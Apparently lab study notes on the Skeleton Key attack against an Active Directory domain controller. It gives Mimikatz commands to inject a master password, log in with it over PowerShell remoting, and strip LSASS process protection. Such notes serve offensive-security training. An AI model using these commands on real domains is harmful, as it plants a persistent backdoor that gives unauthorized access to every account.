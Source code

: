 # 3 Skeleton Key

## Skeleton Key

## Invoke-Mimikatz

### Use the below command to inject a skeleton-Key

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

```ad-note
Skeleton Key password is : **mimikatz**
```

### Now we can access any machine with valid username and password as mimikatz

```powershell
Enter-PSSession -Computername dcorp-dc.dollarcorp.moneycorp.local -credential dcorp\Administrator
```

### LSASS running as a protected process

In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC

```mimikatz
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```
